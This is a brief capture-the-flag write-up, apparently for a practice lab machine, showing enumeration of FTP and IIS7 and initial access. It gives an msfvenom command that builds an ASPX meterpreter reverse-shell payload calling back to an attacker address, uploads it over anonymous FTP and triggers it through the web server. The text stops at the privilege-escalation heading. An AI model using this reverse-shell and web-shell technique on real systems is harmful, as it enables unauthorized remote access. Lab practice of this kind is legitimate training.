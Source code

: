 # Devel

> Nashia Holloway | May 19th, 2020

## Enumeration

**10.10.10.5**

FTP and IIS7 are running on ports 21 and 80 respectively. Nothing of interest on the FTP server. There's not much we can do.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.46 LPORT=1234 -f aspx > shell.aspx
```

## Initial Access

This creates webshell we can access with a meterpreter listener. On the FTP server:

```
put ./shell.aspx
```

Navigate to `10.10.10.5/shell.aspx` to spawn the shell.

## Privilege Escalation

We don't have access to the `babis` user to get the user flag, so we'll try to privesc and get both user and root at the same time.
